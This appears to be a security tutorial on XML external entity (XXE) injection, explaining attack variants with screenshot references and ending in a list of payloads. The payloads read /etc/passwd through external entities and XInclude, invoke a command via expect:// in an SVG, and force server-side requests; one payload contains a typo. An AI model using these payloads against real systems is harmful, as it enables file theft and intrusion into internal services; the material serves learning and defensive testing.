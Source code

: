 # XML external entity (XXE) Injection
XXE injection is a web security vulnerability that allows us to interfere with the processing of XML data. It often allows us to view files on the server filesystem, and to interact with any back-end or external systems that the application itself can access.

Types of XXE attacks
- `XXE to retrieve files` An external entity is containing the contents of a file, and is returned in the response.
- `XXE to perform SSRF` An external entity is defined based on a URL to a back-end system.
- `Blind XXE exfiltrate data out-of-band` sensitive data is transmitted from the application server to a system that the attacker controls.
- `Blind XXE to retrieve data via error messagess` we Can trigger a parsing error message containing sensitive data.

<!-- -->

				XXE to retrieve files
performing an XXE injection attack that retrieves an arbitrary file from the server you need to modify the submitted XML in two ways:

- Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.
- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

<!-- -->
Example:

A shopping application checks the stock of products by submitting the following XML
![](XXE1.png)
Their is no defense so we can exploit this by using the following XXE payload
![](XXE2.png)
The payload defines a external entity `&xxe;`. Whose value is in `/etc/passwd` file and uses the entity within `productId` value.This causes the respone to include the contents of `/etc/passwd`
![](XXE3.png)

			XXE via file upload
Sometimes Applications allow users to upload files which are then processed server-
side

 Common XML based file formats:
 - `SVG`
 - `DOCX`
 - `XLSX`

<!-- -->
Example:

Create a `SVG` image with the payload

Upload the image Getting a similar response
![](XXE7.png)


			XXE via modified content type
Most post requests use a default content type that is generated by HTML forms, such as `application/x-www-form-urlencoded`. Some sites expect to receive requests in this format but tolerate other content types, including XML.
			
Example:
A normal request the following:
![](XXE8.png)
You might be able to submit the following with the same result:
![](XXE9.png)
			
			XXE to SSRF

Example:
A shopping application checks the stock of products by submitting the following XML
![](XXE1.png)

![](XXE4.png)
The external entity will cause the server to make a back-end HTTP request to an internal system within the websites infrastructure.

					XInclude	
Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document

Example:
Packet being sent 
![](XXE5.png)
We don't control the entire XML document and so cannot define or modify a `DOCTYPE` element. However, we can use `XInclude`
![](XXE6.png)

					XXE payloads

## Retrieving files:
```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
 <Name>&entl</Name>
</userInfo>
```
## XXE inside SVG
```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```
## XXE to SSRF
```
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.site.com/text.txt">]><foo>&xxe;</foo>
```
## XInclude
`<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`
